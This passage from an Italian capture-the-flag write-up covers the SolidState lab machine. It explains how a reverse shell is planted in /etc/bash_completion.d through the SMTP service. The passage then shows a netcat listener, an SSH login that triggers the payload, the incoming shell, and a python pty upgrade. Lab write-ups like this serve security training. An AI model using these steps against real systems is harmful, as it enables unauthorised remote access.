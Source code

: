 - `EHLO` : Logga un utente 
- `MAIL FORM `: Mittente della mail
- `RCPT` : Destinatario della mail
- `DATA` :  Testo della mail

Questo crea un file in /etc/bash_completion.d che contiene la mia shell inversa. Quindi la prossima volta che un utente accede, otterrò una shell come quell'utente. È importante aggiungere ' all'inizio della prima intestazione, MAIL FROM. Quindi lo chiudo 'appena prima del mio carico utile. Successivamente, quando questo file viene eseguito da bash, tutte quelle righe verranno raggruppate in un comando interrotto, che fallirà e continuerà. Senza il ', ci sono righe che andranno in crash e interromperanno lo script prima che la shell inversa possa essere eseguita.

Ora ci mettiamo in ascolto con nc

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nc -lnvp 1234
listening on [any] 1234 ...
```

per trigerare l'exploit ci colleghiamo tramite ssh con l'account mindy

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# ssh mindy@10.10.10.51
mindy@10.10.10.51's password:
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686
```

Otteniamo cosi la nostra shell

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.51] 51496
id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
```

facciamo un upgrade della shell

```bash
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cd ..
cd ..
${debian_chroot:+($debian_chroot)}mindy@solidstate:/home$ ls
ls
james  mindy
${debian_chroot:+($debian_chroot)}mindy@solidstate:/home$
```

## Exploit Automatico 

Proviamo ad sfruttare l'exploit 35513.py
